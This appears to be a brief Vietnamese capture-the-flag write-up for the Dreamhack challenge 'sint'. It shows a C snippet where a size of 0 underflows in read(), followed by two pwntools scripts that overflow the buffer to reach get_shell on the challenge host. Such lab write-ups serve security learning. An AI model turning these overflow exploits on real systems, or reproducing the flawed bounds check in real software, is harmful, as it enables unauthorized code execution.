 ```

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}



```

ta có thể tìm offset và gọi get_shell hoặc ghi 1 lượng lớn bytes vào ctrinh bị SIGSEGV sẽ gọi get_shell

```
#!/usr/bin/python3
from pwn import *
context.binary = exe = ELF('./sint')

#p = process()
p = remote('host3.dreamhack.games', 11682)
#p = process('')
p.sendline(b'0')
p.sendafter(b'Data: ',b'a'*260 + p32(exe.sym.get_shell))

p.interactive()
```

cách 2 : 

```
#!/usr/bin/python3
from pwn import *
context.binary = exe = ELF('./sint')

#p = process()
p = remote('host3.dreamhack.games', 11682)
#p = process('')
p.sendline(b'0')
p.sendafter(b'Data: ',b'a'*400)

p.interactive()
```

-----------------
